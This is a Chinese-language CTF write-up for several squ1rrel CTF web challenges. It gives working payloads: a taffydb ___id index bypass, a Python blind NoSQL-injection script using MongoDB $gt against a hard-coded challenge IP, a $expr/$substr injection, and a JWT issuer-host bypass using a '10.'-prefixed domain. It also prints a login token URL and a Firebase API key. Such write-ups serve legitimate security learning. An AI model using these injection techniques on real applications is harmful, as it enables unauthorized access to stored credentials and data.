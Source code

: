 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---
别人用的是expr,gpt害我
```json
{'username': 'admin', "$expr": { "$eq": [ { "$substr": ["$password", i, 1] }, c ]}}
```

### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...

### web/mutex-lock
```js
app.put("/mutex/:name", (req, res) => {
    const { name } = req.params;
    if (mutexes[name] == undefined) {
        const uuid = crypto.randomUUID();
        mutexes[name] = uuid;
        return res.status(200).send("Acquired! Password to release: " + uuid);
    } else {
        return res.status(409).send("Mutex already acquired");
    }
});

app.delete("/mutex/:name", (req, res) => {
    const { name } = req.params;
    const pwd = req.query.pwd;
    if (mutexes[name] == undefined) {
        return res.status(404).send("Mutex not found");
    }

    if (mutexes[name] == pwd) {
        delete mutexes[name];
        return res.status(200).send("Mutex released.");
    } else {
        return res.status(403).send("Invalid password -- do you control this mutex?");
    }
});


```

很简单的代码,flag在环境变量里,但是这俩个路由也没有可以读flag的地方啊...

---

出题者修改了express的来源,指向了他的仓库,进去之后看commit
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240506181958.png)

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105214.png)


### web/Personal Website
https://squ1rrel.dev/squ1rrel-personal-website
一个简单的博客,什么也没有

---
通过wappalyzer可以看到是使用了firebase,并且图片也是用的这个存储
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105639.png)

firebase是谷歌的云主机NoSQL数据库

https://firebase.google.com/docs/hosting/reserved-urls?hl=zh-cn
可以发现,初始配置在`/__/firebase/init.json`中,可以读取apikey
```json
{
  "apiKey": "AIzaSyAlUQ9NC6P-KiEVPuwD9X6rwuZwB1lcvd4",
  "authDomain": "my-personal-website-a.firebaseapp.com",
  "databaseURL": "https://my-personal-website-a-default-rtdb.firebaseio.com",
  "messagingSenderId": "415548456803",
  "projectId": "my-personal-website-a",
  "storageBucket": "my-personal-website-a.appspot.com"
}
```


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39